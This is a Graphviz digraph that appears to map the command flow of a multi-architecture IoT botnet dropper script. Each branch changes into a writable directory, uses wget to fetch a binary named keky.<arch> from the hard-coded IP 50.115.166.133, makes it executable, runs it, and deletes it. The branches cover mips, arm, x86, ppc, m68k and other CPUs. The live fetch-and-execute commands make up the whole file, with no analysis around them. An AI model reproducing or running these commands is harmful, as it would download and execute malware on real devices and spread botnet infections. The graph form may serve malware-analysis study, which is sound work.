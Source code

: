 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://50.115.166.133/keky.mips "];
10 -> 12 [label=";,"];
12 [label="chmod +x keky.mips "];
12 -> 14 [label=";,"];
14 [label="./keky.mips "];
14 -> 16 [label=";,"];
16 [label="rm -rf keky.mips "];
16 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 28 [label="||,"];
28 [label="wget http://50.115.166.133/keky.mpsl "];
28 -> 30 [label=";,"];
30 [label="chmod +x keky.mpsl "];
30 -> 32 [label=";,"];
32 [label="./keky.mpsl "];
32 -> 34 [label=";,"];
34 [label="rm -rf keky.mpsl "];
34 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 46 [label="||,"];
46 [label="wget http://50.115.166.133/keky.sh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x keky.sh4 "];
48 -> 50 [label=";,"];
50 [label="./keky.sh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf keky.sh4 "];
52 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 64 [label="||,"];
64 [label="wget http://50.115.166.133/keky.x86_64 "];
64 -> 66 [label=";,"];
66 [label="chmod +x keky.x86_64 "];
66 -> 68 [label=";,"];
68 [label="./keky.x86_64 "];
68 -> 70 [label=";,"];
70 [label="rm -rf keky.x86_64 "];
70 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 82 [label="||,"];
82 [label="wget http://50.115.166.133/keky.arm7 "];
82 -> 84 [label=";,"];
84 [label="chmod +x keky.arm7 "];
84 -> 86 [label=";,"];
86 [label="./keky.arm7 "];
86 -> 88 [label=";,"];
88 [label="rm -rf keky.arm7 "];
88 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 100 [label="||,"];
100 [label="wget http://50.115.166.133/keky.x46 "];
100 -> 102 [label=";,"];
102 [label="chmod +x keky.x46 "];
102 -> 104 [label=";,"];
104 [label="./keky.x46 "];
104 -> 106 [label=";,"];
106 [label="rm -rf keky.x46 "];
106 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 118 [label="||,"];
118 [label="wget http://50.115.166.133/keky.ppc "];
118 -> 120 [label=";,"];
120 [label="chmod +x keky.ppc "];
120 -> 122 [label=";,"];
122 [label="./keky.ppc "];
122 -> 124 [label=";,"];
124 [label="rm -rf keky.ppc "];
124 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 136 [label="||,"];
136 [label="wget http://50.115.166.133/keky.x86 "];
136 -> 138 [label=";,"];
138 [label="chmod +x keky.x86 "];
138 -> 140 [label=";,"];
140 [label="./keky.x86 "];
140 -> 142 [label=";,"];
142 [label="rm -rf keky.x86 "];
142 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 154 [label="||,"];
154 [label="wget http://50.115.166.133/keky.m68k "];
154 -> 156 [label=";,"];
156 [label="chmod +x keky.m68k "];
156 -> 158 [label=";,"];
158 [label="./keky.m68k "];
158 -> 160 [label=";,"];
160 [label="rm -rf keky.m68k "];
160 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 172 [label="||,"];
172 [label="wget http://50.115.166.133/keky.spc "];
172 -> 174 [label=";,"];
174 [label="chmod +x keky.spc "];
174 -> 176 [label=";,"];
176 [label="./keky.spc "];
176 -> 178 [label=";,"];
178 [label="rm -rf keky.spc "];
178 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 190 [label="||,"];
190 [label="wget http://50.115.166.133/keky.arm "];
190 -> 192 [label=";,"];
192 [label="chmod +x keky.arm "];
192 -> 194 [label=";,"];
194 [label="./keky.arm "];
194 -> 196 [label=";,"];
196 [label="rm -rf keky.arm "];
196 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://50.115.166.133/keky.arm5 "];
208 -> 210 [label=";,"];
210 [label="chmod +x keky.arm5 "];
210 -> 212 [label=";,"];
212 [label="./keky.arm5 "];
212 -> 213 [label=";,"];
}
